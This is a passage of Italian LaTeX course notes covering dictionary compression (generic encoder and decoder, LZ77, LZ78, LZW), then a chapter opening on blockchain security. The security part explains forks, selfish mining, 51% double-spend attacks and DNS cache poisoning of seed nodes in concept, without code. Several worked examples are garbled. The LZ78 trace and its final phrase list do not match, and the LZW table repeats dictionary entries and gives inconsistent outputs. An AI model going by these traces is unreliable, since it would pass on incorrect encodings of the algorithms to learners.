\(\>\>\>\>\>\>\>\)\(t := MH(inputstream)\)

\(\>\>\>\>\>\>\>\)Advance the input stream forward by \(|t|\) characters.

\(\>\>\>\>\>\>\>\)Transmit \(\lceil \log_2 |D| \rceil\) bits corresponding to \(t\).

\vspace{3mm}

\(\>\>\>\>\>\)(b) Update the local dictionary \(D\):

\(\>\>\>\>\>\>\>\)\(X := UH(D)\)

\(\>\>\>\>\>\>\>\)\textbf{while} \(X \neq \{\}\) and (\(D\) is not full or \(DH(D) \neq \{\}\)) \textbf{do begin}

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)Delete an element \(x\) from X.

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\textbf{if} \(x\) is not in \(D\) \textbf{then begin}

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\textbf{if} \(D\) is full \textbf{then} Delete \(DH(D)\) from \(D\).

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)Add \(x\) to \(D\).

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\textbf{end}

\(\>\>\>\>\>\>\>\>\>\>\>\>\>\>\)\textbf{end}
\end{mdframed}

\vspace{5mm}

L'idea fondamentale è quella di avere da una parte un dizionario di frasi e dall'altra un insieme di frasi emesse dalla sorgente. Vogliamo codificare l'output della sorgente attraverso puntatori nel dizionario. Se il dizionario è conosciuto dal compressore e dal decompressore, possiamo usarlo per codificare e decodificare il testo da comprimere.

In generale le due parti non hanno un dizionario fisso durante l'esecuzione di questi algoritmi, ma lo compongono e lo modificano man mano che arriva altro output dalla sorgente. 

\vspace{5mm}

Vediamo ora cosa fa l'algoritmo di codifica: \textbf{(1)} inizia con una fase di inizializzazione del dizionario locale, che chiameremo \(INIT\), con un insieme iniziale di stringhe. \textbf{(2)} Poi inizia il ciclo principale (finché non finisce il messaggio emesso dalla sorgente). \textbf{(a)} Prendiamo il match corrente e vediamo qual è il match migliore tra la stringa di caratteri emessa dalla sorgente e quello che si trova nel dizionario. Trovato il match corrente, chiamato \(t\), ci spostiamo di \(|t|\) caratteri in avanti sullo spazio tra la fine di quella parola e la successiva, e trasmettiamo \(\lceil \log_2 |D| \rceil\), che corrispondono al match appena trovato. \textbf{(b)} Poi si aggiorna il dizionario locale: la funzione \(UH\) (\textit{Update Heuristic}) aggiunge al dizionario una o più frasi che dipendono dal match corrente. Chiamiamo questo insieme di stringhe \(X\). Per aggiungere al dizionario si controlla se c'è spazio\footnote{È buona norma avere un dizionario non troppo grande, altrimenti costerebbe troppo inviare gli indici.} o se bisogna cancellare qualcosa (usando la \textit{Deletion Heuristic}). In ogni caso viene aggiunto l'elemento \(x\) al dizionario.

\subsubsection{Algoritmo di decodifica}
\begin{mdframed}[backgroundcolor=gray!20,shadow=false]
(1) Initialize the local dictionary \(D\) by performing Step 1 of the encoding algorithm.

\vspace{3mm}

(2) \textbf{repeat forever}

\vspace{3mm}

\(\>\>\>\>\>\)(a) Get the current match:

\(\>\>\>\>\>\>\>\)Receive \(\lceil \log_2 |D| \rceil\) bits.

\(\>\>\>\>\>\>\>\)Obtain the current match \(t\) by a dictionary lookup.

\(\>\>\>\>\>\>\>\)Output the characters of \(t\).

\vspace{3mm}

\(\>\>\>\>\>\)(b) Update the local dictionary \(D\) by performing Step 2b of the encoding algorithm.
\end{mdframed}
\vspace{5mm}

Il decompressore riceve una serie di indici e deve andare a sostituire ognuno di questi indici con un elemento del dizionario. L'\(UH\) e la \(DH\) utilizzate dal decompressore sono le stesse del compressore. \textbf{(1)} Il decompressore inizializza il dizionario locale \(D\) andando ad applicare lo step 1 dell'algoritmo di codifica. \textbf{(2)} Inizia poi il ciclo: \textbf{(a)} viene decompresso il match corrente, prendendo l'indice rappresentato come \(\lceil \log_2 |D| \rceil\) bit e a partire da questo indice va a vedere nel dizionario qual è la frase a cui corrisponde. Questo sarà il match corrente i cui caratteri vengono mandati in output. \textbf{(b)} Dopodiché viene aggiornato il dizionario locale utilizzando lo step 2b dell'algoritmo di codifica.

\subsection{Euristiche}
\begin{itemize}
    \item \textbf{Initialization heuristic, INIT:} serie di stringhe per inizializzare il dizionario locale. Normalmente l'alfabeto \(\Sigma\) sarà un sottoinsieme di \(INIT\) e quindi si avrà \(|INIT| \leq <D>\).
    \item \textbf{Match heuristic, MH:} funzione che rimuove dall'input stream una stringa (il match corrente) che è già nel dizionario.
    \item \textbf{Update heuristic, UH:} funzione che prende il dizionario locale \(D\) e restituisce un insieme di stringhe che dovrebbero essere aggiunte al dizionario se riusciamo a trovare abbastanza spazio per inserirle.
    \item \textbf{Deletion heuristic, DH:} funzione che prende \(D\) come argomento e restituisce un insieme che è vuoto oppure che contiene una o più stringhe di \(D\) che non fanno parte di \(INIT\) e che possono essere cancellate da \(D\).
\end{itemize}

Per cui, ricapitolando, \(D\) è inizializzato per contenere almeno i caratteri di \(\Sigma\) (dato che \(\Sigma\) è un sottoinsieme di \(INIT\)) e questi caratteri non possono mai essere cancellati. Da questo deriva che la funzione \(MH\) è sempre ben definita, per cui ogni stringa che va in input all'algoritmo di codifica può sempre essere codificata (nel peggiore dei casi con un carattere alla volta). La codifica è univoca, e i dizionari locali del compressore e del decompressore sono sempre identici (questo perché lo step 2b dell'algoritmo di codifica è uguale allo step 2b dell'algoritmo di decodifica).

\subsection{Puntatori a lunghezza variabile}
Un'altra osservazione importante è che questi algoritmi passeranno puntatori di lunghezza variabile se \(\lceil \log_2 |INIT| \rceil < \lceil \log_2 <D> \rceil\). Infatti è possibile che inizialmente |D| sia più piccolo di <D> e quindi i puntatori più corti di \(\lceil \log_2 <D> \rceil\) bit possono essere trasmessi. La dimensione dei puntatori aumenta di un bit ogni volta che |D| raggiunge una potenza di 2 fino a quando |D| raggiunge <D>. Un uso più significativo dei puntatori a lunghezza variabile è quello di scegliere dinamicamente la dimensione di <D> oppure far crescere o diminuire di dimensione D. In questo caso viene usata un'euristica.

\section{Metodi basati su static dictionaries}
Esistono diversi tipi di dizionari. Con un dizionario statico compressore e decompressore condividono un dizionario che già è pieno. Utilizzando questo metodo non viene fatto l'aggiornamento del dizionario perché non cambia, la compressione infatti si basa solo su quello che ho a disposizione, che posso identificare con lo stesso insieme \(INIT\). 

Questo metodo è utile quando la sorgente è conosciuta a priori: in questo caso ha il vantaggio di essere veloce e semplice rispetto agli altri metodi. Inoltre non dovendo aggiornare il dizionario, non si possono verificare errori di inconsistenza tra i due dizionari di compressore e decompressore anche in caso di linea di comunicazione rumorosa o errori di comunicazione; cosa che si può verificare ad esempio con altri metodi.

Se la distribuzione delle voci nel dizionario statico non è uniforme nel testo sorgente, può essere vantaggioso usare puntatori di lunghezza variabile assegnando codici più brevi alle voci che si presentano più frequentemente.

\section{Metodi basati su sliding dictionaries}
L'algoritmo di compressione LZ77 è basato sun questo metodo. Con il metodo dello \textit{sliding dictionary}, \(INIT = \Sigma\) e il resto del dizionario locale è visto come una finestra scorrevole che passa sopra le stringhe da comprimere. Consideriamo due parametri: \texttt{MAX\_DISPLACEMENT} e \texttt{MAX\_LENGTH} (determinati dalla dimensione del dizionario locale), tali che il dizionario locale consiste di tutte le sottostringhe di lunghezza minore o uguale a \texttt{MAX\_LENGTH} dei precedenti caratteri \texttt{MAX\_DISPLACEMENT} dell'input stream. Consideriamo un puntatore come una coppia di interi \((m,n)\) dove \(m\) è lo spostamento indietro dalla posizione corrente al target del puntatore e \(n\) è la lunghezza del target del puntatore. Lo step 2b degli algoritmi di codifica e decodifica equivale a far scorrere una finestra (sliding window) sull'input stream: possiamo pensare come ai caratteri che entrano da destra e escono a sinistra. In questo caso allora \(UH(D)\) è un insieme costituito da tutte le sottostringhe della finestra di lunghezza \(y\) o inferiore che si sovrappongono a \(t\), quando \(t\) è concatenato all'estremità destra della finestra, e \(DH(D)\) è un insieme di sottostringhe di lunghezza \(|y|\) che si sovrappongono ai caratteri più a sinistra della finestra. Vediamo un esempio:

\vspace{5mm}

\begin{center}
    \(\leftarrow\) coded text\(\dots\) \fbox{\strut\texttt{sir}\textvisiblespace\texttt{sid}\textvisiblespace \texttt{eastman}\textvisiblespace\texttt{easily}\textvisiblespace\texttt{t}}\fbox{\strut\texttt{eases}\textvisiblespace\texttt{sea}\textvisiblespace\texttt{sick}\textvisiblespace\texttt{seals}} \(\dots\) \(\leftarrow\) text to be read
\end{center}

La finestra che sto guardando al momento, ovvero \texttt{MAX\_DISPLACEMENT}, parte dalla stringa \texttt{sir} fino a \texttt{easily t}, contando quindi 24 caratteri all'indietro dalla \texttt{t}. Il parametro \texttt{MAX\_LENGTH} mi dice invece quanto può essere lungo al massimo il match. 

\vspace{5mm}

Il principio dell'algoritmo di compressione a sliding window è quello di usare una parte dello stream di input visto in precedenza come dizionario. Il compressore mantiene una finestra sullo stream di input e sposta l'input in quella finestra da destra a sinistra mentre le stringhe di simboli vengono codificate.  

La finestra è divisa in due parti: la parte a sinistra è il buffer di ricerca, ovvero il dizionario corrente, e include i simboli che sono stati recentemente inseriti e codificati. La parte a destra invece è il buffer look-ahead, che contiene il testo ancora da codificare.  Nelle implementazioni pratiche il buffer di ricerca è lungo alcune migliaia di byte, mentre il buffer look-ahead è lungo solo decine di byte.

Nell'esempio che abbiamo visto, la barra verticale tra la \texttt{t} e la \texttt{t} rappresenta la linea di demarcazione attuale tra i due buffer. Assumiamo che il testo \texttt{sir sid eastman easily t} sia già stato compresso, mentre il testo \texttt{eases sea sick seals} deve ancora essere compresso.

\vspace{5mm}

Il compressore scansiona il buffer di ricerca all'indietro (da destra a sinistra) cercando una corrispondenza per il primo simbolo \texttt{e} nel buffer look-ahead. 
Ne trova uno alla \texttt{e} della parola \texttt{easily}. 
Questa \texttt{e} è ad una distanza (offset) di 8 dalla fine del buffer di ricerca. 
Il compressore quindi fa corrispondere il maggior numero possibile di simboli che seguono le due \texttt{e}. Tre simboli corrispondono a \texttt{eas} in questo caso, quindi la lunghezza del match è 3. 
Il compressore poi continua la scansione all'indietro, cercando di trovare match più lunghi. Nel nostro esempio, c'è un altro match alla parola \texttt{eastman}, con offset 16, che ha la stessa lunghezza. 
Il codificatore seleziona il match più lungo e prepara il token (16, 3, \texttt{e}).
Scegliere l'ultimo match anziché il primo semplifica il codificatore, perché in questo modo deve solo tenere traccia dell'ultimo match trovato.

\subsection{Limiti nell'approccio con sliding window}
LZ77 usa l'assunzione implicita che i modelli nei dati di input
si verifichino vicini l'uno all'altro.
I flussi di dati che non soddisfano questo presupposto non vengono compressi correttamente: un esempio comune è il testo dove una certa parola, ad esempio \textit{economia}, ricorre spesso
ma è distribuita uniformemente in tutto il testo.
Quando questa parola viene spostata nel buffer look-ahead, la sua occorrenza precedente
potrebbe essere già stata spostata fuori dal buffer di ricerca.
Un algoritmo migliore salverebbe le stringhe che ricorrono comunemente nel dizionario
e non lo farebbe solo scorrere tutto il tempo.

\vspace{5mm}

Un altro svantaggio di LZ77 è la dimensione limitata \(L\) del buffer look-ahead.
La dimensione delle stringhe che possono matchare è limitata a \(L-1\), ma \(L\) deve essere tenuta piccola
perché il processo di match delle stringhe implica il confronto di singoli simboli.
Se la dimensione di \(L\) fosse raddoppiata, la compressione migliorerebbe, poiché sarebbero possibili corrispondenze più lunghe, ma allo stesso tempo sarebbe molto più lento quando cerca
match lunghi.




\section{Metodi basati su dynamic dictionaries}
L'algoritmo di compressione LZ78 è basato su questo metodo. Con il metodo della sliding window il dizionario viene aggiornato in modo molto ristretto: viene aggiunto un nuovo match alla destra della finestra e gli viene fatto spazio rimuovendo i caratteri dalla sinistra della finestra.
Intuitivamente, il metodo del dizionario scorrevole elimina i caratteri all'estremità sinistra della
della finestra scommettendo che le sottostringhe lì presenti siano quelle che hanno meno probabilità di ripetersi
di nuovo e aggiunge il match corrente all'estremità destra della finestra scommettendo
che le sottostringhe lì presenti siano le più probabili a ripetersi. Questa intuizione quindi ci porta a considerare un'euristica di aggiornamento e cancellazione più generale.

\subsubsection{Update Heuristic}

I metodi basati su dizionari dinamici si basano sul fatto che la \textit{Update Heuristic} concatena il match precedente con un insieme di stringhe basate sul match corrente; ovvero se indichiamo con \(pm\) il match precedente, con \(cm\) il match corrente, e con \(INC\) una funzione di incremento che mappa una stringa a un insieme di stringhe, allora avremo che per qualche scelta di \(INC\), varrà che:

\vspace{3mm}

\begin{center}
\(UH(D) = \) {\(pm\) concatenato con tutte le stringhe di \(INC(cm)\)}
\end{center}

\vspace{3mm}
Le seguenti sono tre scelte efficaci per la funzione \(INC\):
\begin{itemize}
    \item \textbf{FC, First Character heuristic} - \(INC(cm)\) è il primo carattere di \(cm\).
    \item \textbf{ID, Identity heuristic} - \(INC(cm)\) è \(cm\).
    \item \textbf{AP, All-Prefixes heuristic} - \(INC(cm)\) è l'insieme di tutti i prefissi non vuoti di \(cm\) (incluso \(cm\) stesso).
\end{itemize}

\textbf{Esempio}: Supponiamo che il match precedente sia "THE\_" e il match corrente sia "CAT" (usiamo un trattino basso per indicare uno spazio). Allora \(UD(D)\) contiene i seguenti valori considerando le tre scelte appena viste:
\begin{itemize}
    \item \textbf{FC}: {"THE\_C"}
    \item \textbf{ID}: {"THE\_CAT"}
    \item \textbf{AP}: {"THE\_C", "THE\_CA", "THE\_CAT"}
\end{itemize}
In generale, le euristiche \(FC\) e \(ID\) producono sempre una sola stringa, mentre \(AP\) produce un insieme di stringhe la cui cardinalità è la lunghezza del match corrente. Infatti dall'esempio possiamo vedere come \(AP\) contenga le stringhe prodotte da \(FC\) e \(ID\).

\subsubsection{Deletion Heuristic}
Tipicamente vengono utilizzate quattro tipologie di deletion heuristic:
\begin{itemize}
    \item \textbf{FREEZE}: \(DH(D)\) è la stringa vuota, per cui quando il dizionario è pieno rimane la stessa (viene freezata) da quel momento in poi.
    \item \textbf{LRU, Least Recently Used}: \(DH(D)\) è la stringa di \(D\) di cui è stato trovato un match meno recentemente di tutte.
    \item \textbf{LFU, Least Frequently Used}: \(DH(D)\) è la stringa di \(D\) di cui è stato trovato un match meno frequentemente di tutte.
    \item \textbf{SWAP}: quando il dizionario primario diventa pieno, si inizia a riempire un dizionario secondario, ma la compressione basata sul primo dizionario viene fatta continuare normalmente. Ogni volta il dizionario ausiliario diventa pieno, si invertono dizionario primario e secondario, dopodiché si svuota il dizionario secondario.
\end{itemize}

\section{LZ78}
Il metodo LZ78 [Ziv e Lempel 78] non usa una sliding window, ma un dizionario di stringhe precedentemente incontrate.
Questo dizionario inizia vuoto (o quasi vuoto), e la sua dimensione è limitata solo dalla
dalla quantità di memoria disponibile.
Il compressore emette token che hanno due campi: il primo è un puntatore al
dizionario, mentre il secondo è la codifica di un simbolo.
I token non contengono la lunghezza di una stringa perché già è implicita nel
dizionario.
Ogni token corrisponde ad una stringa di simboli in ingresso, e questa stringa viene aggiunta
al dizionario dopo che il token viene scritto sullo stream che già è stato compresso.

\vspace{5mm}

Quando si usa l'algoritmo LZ78, sia il codificatore che il decodificatore iniziano con un dizionario quasi
vuoto. Per definizione, il dizionario ha una singola stringa codificata: la stringa nulla. Ogni carattere che viene letto viene aggiunto alla stringa corrente, e finché la stringa corrente
ha un match con qualche frase nel dizionario questo processo continua.
A un certo punto la stringa non avrà più una frase corrispondente nel dizionario, quindi vengono emessi un token e un carattere: in questo modo la stringa corrente è definita come quell'ultimo match con un nuovo carattere
aggiunto. La nuova frase infine viene aggiunta al dizionario.

\vspace{5mm}

\textbf{Esempio:} supponiamo di dover codificare il testo \texttt{DAD DADA DADDY DADO} con LZ78. Il compressore inizia con un dizionario vuoto. Legge il primo carattere \texttt{D} (che non è presente del dizionario) e crea una coppia (0,\texttt{D}). Di seguito vediamo la tabella che indica i valori utilizzati dall'algoritmo.

\begin{longtable}{>{\hspace{0pt}}m{0.28\linewidth}>{\hspace{0pt}}m{0.334\linewidth}>{\hspace{0pt}}m{0.301\linewidth}} 
\hline
\textbf{Output Phrase} & \textbf{Output Character} & \textbf{Encoded String}  \endfirsthead 
\hline
0                      & \texttt{D}                         & \texttt{D}                        \\
0                      & \texttt{A}                         & \texttt{A}                        \\
1                      & \texttt{''}                        & \texttt{D}                        \\
1                      & \texttt{A}                         & \texttt{DA}                       \\
4                      & \texttt{''}                        & \texttt{DA}                       \\
4                      & \texttt{D}                         & \texttt{DAD}                      \\
1                      & \texttt{Y}                         & \texttt{DY}                       \\
0                      & \texttt{''}                        & \texttt{''}                       \\
6                      & \texttt{O}                         & \texttt{DADO}                    
\end{longtable}


Il risultato finale degli indici è il seguente:

\begin{longtable}{ll}
0 & \texttt{''}    \endfirsthead
1 & \texttt{D}     \\
2 & \texttt{A}     \\
3 & \texttt{D}     \\
4 & \texttt{DA}    \\
5 & \texttt{DA}    \\
6 & \texttt{DAD}   \\
7 & \texttt{DY}    \\
8 & \texttt{''}    \\
9 & \texttt{DADO} 
\end{longtable}

Come LZ77, anche LZ78 può impostare la dimensione del dizionario arbitrariamente, e ci sono tipicamente due cose da tenere in conto: la prima è data dal numero di bit allocati nel token di output per la frase da codificare, e la seconda e più importante è considerare quanta CPU utilizza il dizionario. Teoricamente LZ78 dovrebbe comprimere meglio all'aumentare della dimensione del dizionario, ma è solo un discorso teorico nel caso in cui la lunghezza della sorgente da codificare fosse infinita. Nella pratica la compressione soffre al crescere della dimensione del file da codificare. Infatti se ad esempio usiamo una codifica a 16 bit per l'indice della frase, potremo indicizzare 65'536 frasi, inclusa la parola nulla. Le frasi inoltre possono variare nella lunghezza, e vengono salvate in un albero la cui radice è la stringa nulla. Ogni carattere che può essere aggiunto alla stringa nulla è un nuovo arco dell'albero, mentre ogni nuova frase creata rappresenta un nuovo nodo nell'albero.

\begin{figure}[htbp!]
  \centering
  \includesvg[inkscapelatex=false, width = 110pt]{4.1}
\end{figure}
\FloatBarrier

Un albero del genere può aumentare esponenzialmente, basti pensare che comprimendo file binari con un alfabeto a 8 bit sono possibili 256 branch a ogni nodo. Tipicamente si utilizza una lista di indici per ogni nodo discendente per risparmiare memoria, nonostante questo approccio sia più lento.

Lo svantaggio di LZ78 rispetto a LZ77 è che anche il decompressore deve mantenere in memoria questo albero, mentre in LZ77 l'indice era solo un puntatore o un indice a una posizione precedente nello stream. In LZ78 l'indice è il numero di un nodo nell'albero. Quando il dizionario è pieno si possono attuare diverse strategie: la scelta più sicura solitamente è quella di smettere di aggiungere nuove frasi al dizionario dopo che è pieno, ma non potrebbe essere la scelta migliore. Infatti ad esempio nel caso di compressione di file EXE avremo un cambiamento nella distribuzione del codice per quanto riguarda la parte dei comandi rispetto alla parte dei dati. Se in questo caso continuassimo ad utilizzare il dizionario riempito, ci troveremmo di fronte a un dizionario non aggiornato e quindi che non comprime bene, tuttavia non vorremmo neanche buttare un dizionario che finora ha compresso bene. Se il rapporto di compressione inizia a peggiorare, si scarta quindi il dizionario pieno e se ne inizia uno nuovo, altrimenti si continua a utilizzare quello vecchio senza però aggiungere nuove frasi.

\section{LZW}
LZW è un'implementazione migliorata di LZ78 che elimina il requisito secondo il quale ogni token dà in output un indice per ogni carattere: produce infatti solo frasi e mai singoli caratteri. Per fare ciò LZW pre-carica il dizionario delle frasi con frasi composte da un solo simbolo utilizzando ogni simbolo dell'alfabeto sorgente.

\vspace{5mm}

\textbf{Esempio:}  Codifichiamo la stringa \texttt{WED WE WEE WEB WET}.

La stringa di input è un insieme di parole inglesi di un dizionario separate dal carattere \texttt{spazio}.
Inizialmente viene fatto in controllo per vedere se la stringa \texttt{W} è nella tabella: dato che non è presente, viene prodotto il codice per \texttt{spazio} e la stringa \texttt{W} viene aggiunta alla tabella. Dato che il dizionario ha già definiti i codici 0-255 per ogni carattere dell'alfabeto, alla nuova stringa viene assegnato l'indice 256. Dopo che la terza lettera, la \texttt{E}, è stata letta, viene aggiunta la stringa codice \texttt{WE}, e viene prodotto il codice per la lettera \texttt{W}. Nella seconda parola vengono letti i caratteri \texttt{spazio} e \texttt{W}, per cui viene prodotto il codice 256 e la stringa di tre caratteri viene aggiunta alla tabella. Il processo continua finché non è finita la stringa e tutti i codici sono stati prodotti.

\begin{table}
\centering
\begin{tabular}{lll} 
\hline
\textbf{Caratteri di input} & \textbf{Codice prodotto in output} & Nuovo valore e stringa associata  \\ 
\hline
\texttt{W}                           & \texttt{spazio}                             & 256 = \texttt{spazio W}                    \\
\texttt{E}                           & \texttt{W}                                  & 257 =~ \texttt{WE}                         \\
\texttt{D}                           & \texttt{E}                                  & 258 =~ \texttt{ED}                         \\
\texttt{spazio}                      & \texttt{D}                                  & 259 =~ \texttt{D spazio}                   \\
\texttt{WE}                          & 256                                & 260 =~ \texttt{WE}                         \\
\texttt{spazio}                      & \texttt{E}                                  & 261 = \texttt{E}                           \\
\texttt{WEE}                         & 260                                & 262 = \texttt{spazio WEE}                  \\
\texttt{W}                           & 261                                & 263 = \texttt{E spazio W}                  \\
\texttt{EB}                          & 257                                & 264 = \texttt{WEB}                         \\
\texttt{spazio}                      & \texttt{B}                                  & 265 = \texttt{B}                           \\
\texttt{WET}                         & 260                                & 266 = \texttt{spazio WET}                  \\
\texttt{<EOF>}                       & \texttt{T}                                  &                                  
\end{tabular}
\end{table}

\FloatBarrier

È possibile però che LZW incontri dei problemi nella decompressione quando si incontra un codice non definito in precedenza. Tuttavia è l'unico caso in cui si verifica, per cui basta sollevare un'eccezione e gestirla. 




\let\cleardoublepage\clearpage
\chapter{Sicurezza e Privacy in Blockchain}
\begin{comment}
ATTACCHI E VULNERABILITA
    INTRODUZIONE ALLA FRONTIERA DI ATTACCO
    ATTACCHI DI RETE, DI SISTEMA E DI APPLICAZIONE
PROGRAMMAZIONE SICURA DI SMART CONTRACTS
    VULNERABILITA DEI CONTRATTI IN SOLIDITY
    VULNERABILITA DEI CHAINCODE IN HYPERLEDGER FABRIC
BLOCKCHAIN E GDPR
    LIMITI E PROBLEMATICHE
\end{comment}
Rapporti recenti hanno evidenziato i rischi per la sicurezza associati alla Blockchain. Spesso questi attacchi vengono lanciati su applicazioni blockchain a causa della loro popolarità o del capitale coinvolto nel loro sistema. Spesso infatti le blockchain più attaccate sono quelle che gestiscono criptovalute. A causa di una natura pubblicamente verificabile, le criptovalute basate su Blockchain sono vulnerabili a diverse attività fraudolente. Alcuni esempi sono attacchi associati alle tecniche matematiche utilizzate per la creazione del libro mastro, attacchi associati all'architettura peer-to-peer utilizzata nel sistema Blockchain o attacchi associati al contesto applicativo (attacchi agli smart contracts).

\section{Attacchi e vulnerabilità}

Il modello di fiducia debole espone le blockchain pubbliche a un'ampia varietà di attacchi, consentendo agli avversari di compromettere facilmente il sistema. Per affrontare le carenze delle Blockchain pubbliche e ridurre le opportunità di attacco, le blockchain private e con autorizzazione vengono ora utilizzate per varie applicazioni.

\subsection{Attacchi alla struttura}

I fork possono essere creati involontariamente a causa di malfunzionamenti o incompatibilità negli aggiornamenti. Le fork possono anche essere causate con intenti dannosi mediante nodi Sybil o il mining egoistico. Un'altra forma di fork si verifica quando gli utenti di un'applicazione blockchain creano un'applicazione figlia dall'applicazione padre. I fork intenzionali possono essere:
\begin{itemize}
    \item Una soft fork si ha quando la modifica è retrocompatibile;
    \item Una hard fork si ha quando i nuovi blocchi che la rete accetta sembrano non validi per i nodi pre-fork.
\end{itemize}
Un fork rappresenta uno stato incoerente che può essere sfruttato dagli avversari per causare confusione, transazioni fraudolente e sfiducia all'interno della rete. Gli hard fork possono portare a una divisione della criptovaluta. Quando degli attacchi sono riusciti a compromettere con successo una criptovaluta, viene impiegato un hard fork per annullare le transazioni maliziose. Tuttavia questo richiede il consenso nella maggior parte dei nodi. Se si verifica un ritardo del consenso a causa di un attacco di maggioranza o di un evento DDoS, le attività fraudolente diventano alquanto difficili da gestire e ritardi prolungati possono infine causare la svalutazione della criptovaluta.

Possono verificarsi due forme di incongruenze con il processo di consenso che può lasciare blocchi validi fuori dalla Blockchain:
\begin{itemize}
    \item \textbf{Stale block} (blocco obsoleto), se un blocco è stato minato con successo ma non è accettato nella migliore blockchain corrente. Si verifica principalmente nelle Blockchain pubbliche a causa delle race conditions tra i miners: due o più miners possono trovare una soluzione valida, tra cui la rete ne accetta uno solo e scarta il resto, che diventano blocchi obsoleti. Anche il selfish mining può portare a blocchi obsoleti.
    \item \textbf{Orphaned block} (blocco orfano), se un blocco valido ha il campo hash del blocco genitore che punta ad un blocco non autentico.
    
    \begin{figure}[htb!]
        \centering
        
\includegraphics[width=6cm]{./Images/cap5/5.1.png}
    \end{figure}
    
\end{itemize}

Il consenso utilizzato determina le vulnerabilità verificabili:
\begin{itemize}
    \item Uno dei maggiori problemi con la PoW è l'eccessivo spreco di energia per trovare una valida soluzione. La centralizzazione della capacità di hashing tra pochi gruppi di miners rende l'applicazione Blockchain vulnerabile agli attacchi, inclusi gli attacchi della maggioranza e la doppia spesa: se un miner acquisisce la maggioranza dell'hash rate di una rete, sarà in grado di prendere il controllo del sistema.
    \item PoS implica un consenso deterministico poiché un validatore viene scelto prima e i blocchi vengono validati senza ritardi. Inoltre per lanciare un attacco di maggioranza l'attaccante deve acquisire più del 50\% dei token di criptovaluta, più difficile da ottenere rispetto al 50\% di hash rate in PoW. Il meccanismo si polarizza verso i validatori più ricchi che tengono ad arricchirsi progressivamente per la validazione dei blocchi.
    \item PBFT è considerato efficiente dal punto di vista energetico con un elevato throughput di transazione. Tuttavia, assume che la replica primaria esegua fedelmente il protocollo e non manometta l'ordine di transazioni e blocchi. Questa ipotesi può portare a una vulnerabilità nelle Blockchain permissioned, ma siccome l'identità della replica primaria è nota, è possibile monitorarne il comportamento.
    
    PBFT è affetto da una limitata scalabilità e bassa tolleranza ai fallimenti bizantini, che aumenta la possibilità per un avversario di inserire repliche dannose. Attualmente, Bitcoin ha oltre 10.000 nodi completi attivi, e può tollerare fino a 5.000 nodi difettosi. In una blockchain privata basata su PBFT che consiste di 100 nodi, un aggressore può avere successo solo controllando 33 nodi.
\end{itemize}

\subsection{Attacchi al sistema P2P}

L'attacco del selfish mining è una strategia scelta da alcuni minatori che tentano di aumentare le loro ricompense mantenendo deliberatamente privati i loro blocchi e determinando una block race tra la catena pubblica degli onesti e la catena privata degli egoisti. Ciò causa risultati indesiderabili invalidando i blocchi onesti con tutte quelli loro che vengono rifiutati e la possibilità di occorrenza di fork che possono causare un ritardo del consenso e il sopraggiungere di altri potenziali attacchi come \textit{doppia spesa} e \textit{fork after withholding}.

\begin{figure}[htb!]
    \centering
    
\includegraphics[width=7cm]{./Images/cap5/5.2.png}
\end{figure}

L'attacco 51\% è una vulnerabilità che può essere sfruttata quando un singolo aggressore, un gruppo di nodi Sybil o un pool di mining nella rete raggiunge la maggior parte dell'hash rate della rete per manipolare la blockchain ed essere in grado di:
\begin{itemize}
    \item impedire la verifica di transazioni o blocchi, rendendoli non validi;
    \item invertire le transazioni durante il tempo in cui hanno il controllo per consentire la doppia spesa;
    \item forkare la Blockchain principale e dividere la rete;
    \item impedire ad altri miners di validare blocchi per un breve periodo di tempo.
\end{itemize}
Si consideri lo scenario in cui un pool di mining malizioso con un potere di hash significativo esegue una transazione T\textsubscript{x} valida. Allo stesso tempo, genera una transazione fraudolenta T\textsubscript{y} a doppia spesa dalla stessa transazione genitore. Il destinatario attende \textit{k} conferme della fork prima di rilasciare il prodotto al miner, ovvero che \textit{k} blocchi successivi sono stati estratti dalla rete dopo aver validato la transazione T\textsubscript{x}. Durante questo processo, il miner malizioso continua ad estrarre blocchi. Forzando la catena, il miner dannoso sarà in grado di invalidare la catena con transazione T\textsubscript{x} e la sostituirà con la propria catena T\textsubscript{y}.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=9cm]{./Images/cap5/5.3.png}
\end{figure}

Quando un nodo si unisce alla rete Bitcoin per la prima volta, non è a conoscenza dei peer attivi. Per scoprirli, è necessario un meccanismo di bootstrap come i DNS. I seed DNS vengono interrogati per ottenere informazioni sui peer attivi con cui stabilire delle connessioni. La query DNS iniziale restituisce uno o più records DNS con gli indirizzi IP corrispondenti ai peer che accettano le connessioni in entrata. FNS rappresenta una criticità per blockchain siccome è vulnerabile ad attacchi man-in-the-middle. Per impostazione predefinita, il client blockchain ha un elenco di seeder che consentono la scoperta della rete. Se l'aggressore inserisce un falso elenco, l'utente verrà compromesso e condotto a una rete contraffatta.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.4.png}
\end{figure}

Nella figura in alto, un nodo nella rete Bitcoin ha un indirizzo IP di 33.33.33.3, mentre il nodo dell'aggressore in una rete contraffatta ha un indirizzo IP 22.22.22.2. L'autore realizza un attacco DNS cache poisoning per indurre l'utente a entrare nella rete contraffatta. L'utente esegue la query DNS su seed.bitcoin.sipa.be, e invece di rispondere con 33.33.33.3, il resolver DNS restituisce 22.22.22.2. Di conseguenza, l'utente si connette a nodi maliziosi nella rete contraffatta e i nodi dannosi potrebbero fornire falsi blocchi all'utente.

Ci sono due tipi di nodi nella maggior parte delle applicazioni blockchain:
\begin{itemize}
    \item I \textbf{full nodes} sono partecipanti effettivi alla rete e mantengono una copia aggiornata della blockchain.
    \item I \textbf{lightweight nodes} utilizzano solo i servizi dei nodi completi per ottenere l'accesso alla rete.
\end{itemize}

